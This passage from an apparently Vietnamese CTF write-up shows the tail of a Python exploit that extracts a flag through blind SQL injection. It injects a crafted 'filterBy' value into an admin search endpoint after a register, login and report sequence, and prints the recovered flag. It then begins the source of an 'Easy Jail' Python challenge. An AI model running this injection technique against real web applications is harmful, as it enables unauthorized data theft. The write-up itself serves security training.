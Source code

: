 ```python
        '_csrf': csrf_token,
        'msg': 'dummy'
    }
    r = session.post(URL + 'msg', data=data)

def get_flag():
    ch = string.ascii_letters + string.digits + '{}_!@$#%^&*()_+=`'
    flag = ""
    for i in range(40):
        found = False
        for j in ch:
            data = {
                '_csrf': csrf_token,
                'filterBy': f'type" like $1 or (select substring(flag,{i+1},1)=\'{j}\' from flags) -- ',
                'keyword':'dummy'
            }
            r = session.post(URL + 'admin/msgs', data=data)
            if (username in r.text):
                flag += j
                found = True
                print(f'found char {j} at pos {i+1}, flag is {flag}')
                break
        if (not found):
            break
    print(flag)
    
get_csrf_token()
register()
login()
report()
login()
add_msg()
get_flag()
```

Flag: `Secuinets{239c12b45ff0ff9fbd477bd9e754ed13}`

# Misc

## Easy Jail

Source của challenge:

```python
import random
import string

seed = random.randint(0, 2**20)
shift_rng = random.Random(seed)

class ProtectedFlag:
    def __init__(self, value):
        self._value = value

    def __str__(self):
        return "variable protected, sryy"

    def __repr__(self):
        return "variable protected, sryy"

    def __getitem__(self, index):
        try:
```